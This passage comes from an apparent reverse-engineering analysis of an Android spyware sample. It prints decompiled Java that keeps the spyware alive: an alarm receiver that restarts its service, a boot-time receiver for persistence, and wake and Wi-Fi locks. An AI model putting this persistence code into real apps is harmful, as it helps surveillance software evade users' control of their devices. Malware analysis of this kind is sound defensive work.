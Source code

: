 ```java
            MainService.this.pasterx++;
        }
    };
```
`taskx` is used to increase the value of `pasterx` by 1 every second. After 600 seconds, the connection to the socket `so` is closed which is handled by `task`.

![](/images/rev/ttsp/ttsp-03.png)

The `onStartCommand` method is run after the `onCreate` method finishes its execution. Here, an empty notification is generated. After generating the empty notification, the spyware creates a reference-counted `WifiLock`. By acquiring a WifiLock, the application ensures that the Wi-Fi radio remains active, even when the user becomes inactive. Reference-counted Wifilocks ensure the the Wi-Fi radio sleeps only when the number of calls to `acquire()` have been balanced by the number of calls to `release()`. Subsequently, the application acquires a `WAKE_LOCK`. Acquiring wake lock ensures that the device remains active and doesn't go into sleep mode /standby for saving power. A repeating alarm is setup that runs every 3 minutes. Whenever the alarm runs, the `onReceive` method of the broadcast receiver `AlarmReceiver` is called which checks whether the `MainService` is already running or not. If the service is not running, it will be started.
```java
public class AlarmReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        if (!isMyServiceRunning(MainService.class, context)) {
            if (Build.VERSION.SDK_INT >= 23) {
                Intent serviceIntent = new Intent(context, MainService.class);
                serviceIntent.putExtra("inputExtra", "InsiteMobileService");
                ContextCompat.startForegroundService(context, serviceIntent);
                return;
            }
            Intent myService = new Intent(context, MainService.class);
            context.startService(myService);
        }
    }

    private boolean isMyServiceRunning(Class<?> serviceClass, Context context) {
        ActivityManager manager = (ActivityManager) context.getSystemService("activity");
        for (ActivityManager.RunningServiceInfo service : manager.getRunningServices(ActivityChooserView.ActivityChooserViewAdapter.MAX_ACTIVITY_COUNT_UNLIMITED)) {
            if (serviceClass.getName().equals(service.service.getClassName())) {
                return true;
            }
        }
        return false;
    }
}
```
### com.example.dat.a8andoserverx.MyReceiver
This broadcast receiver is used to start `MainService` on system startup which is a major step to ensure persistence.
```java
public class MyReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        if ("android.intent.action.BOOT_COMPLETED".equals(intent.getAction())) {
            if (Build.VERSION.SDK_INT >= 23) {
                Intent serviceIntent = new Intent(context, MainService.class);
                serviceIntent.putExtra("inputExtra", "InsiteMobileService");
                ContextCompat.startForegroundService(context, serviceIntent);
                return;
            }
            Intent myService = new Intent(context, MainService.class);
            context.startService(myService);
```